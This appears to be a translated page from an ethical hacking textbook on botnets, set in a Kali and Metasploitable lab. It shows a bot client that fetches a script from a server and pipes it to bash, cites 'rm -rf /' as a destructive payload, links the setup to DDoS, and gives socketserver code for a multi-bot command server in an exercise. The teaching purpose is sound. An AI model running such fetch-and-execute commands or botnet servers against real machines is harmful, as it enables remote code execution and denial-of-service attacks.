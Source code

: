 `touch` 命令创建一个名为 *commands.sh* 的新文件，`echo` 命令将 `"ping 172.217.9.206"` 写入该文件。`ping` 命令通过发送数据包并等待响应来检查机器是否在线。将这些命令组合在一起，这个脚本将向 IP 地址 172.217.9.206 发送 ping 数据包。多个机器重复执行这个操作将导致 DDoS 攻击。

创建了 shell 脚本之后，使用以下命令创建一个一行的僵尸网络服务器：

```
kali@kali:~$ python3 -m http.server 8080
```

现在，你可以编写一个简单的 bot 客户端，下载并执行脚本。记住，bot 会执行 *commands.sh* 文件中的所有命令，所以要小心你在文件中包含的内容。例如，如果 `ping` 命令被替换为 `rm -rf /`，那么 bot 会删除机器上的所有数据。接下来，运行以下命令：

```
msfadmin@metasploitable:~$ wget -0- <IP address of server bot> :8080\commands.sh | bash

```

`-0-` 标志输出下载文件的内容，然后通过 `|` 运算符将内容“管道”到 Bash shell 中执行。*command.sh* 脚本指示客户端 ping Google 的 IP 地址（172.217.9.206）。

如果一个服务器指示足够多的客户端同时执行这个操作，它就能发起 DDoS 攻击。黑客们通常通过租赁他们的僵尸网络军队来从中获利，其他黑客也用它们来实现这一目的。

### **练习**

通过这些练习，扩展你对僵尸网络、反向 shell 和扫描的理解。在第一个练习中，你将实现一个可以同时处理多个 bot 的 bot 服务器。在第二个练习中，你将使用 Scapy 库实现 SYN 扫描。在最后一个练习中，你将实现一个 Python 程序，帮助你检测 XMas 扫描。

#### ***一个多客户端僵尸网络服务器***

在这一章中，你写了一个只能控制单个机器人的服务器。现在让我们扩展你的实现，使其可以同时控制多个机器人。机器人将不再发送单独的命令，而是会收到相同的命令。在 CNC 服务器接收到响应后，它应该打印出机器人的 IP 地址和执行命令的结果。我建议你使用`socketserver`库来管理多个 TCP 连接。

```
   import socketserver

➊ class BotHandler(socketserver.BaseRequestHandler):

     ➋ def handle(self):

         ➌ self.data = self.request.recv(1024).strip()

            print("Bot with IP {}  sent:".format(self.client_address[0]))

            print(self.data)

         ➍ self.request.sendall(self.data.upper())

   if __name__ == "__main__":

        HOST, PORT = "", 8000

     ➎ tcpServer =  socketserver.TCPServer((HOST, PORT), BotHandler)

        try:

         ➏ tcpServer.serve_forever()

        except:

            print("There was an error")
```
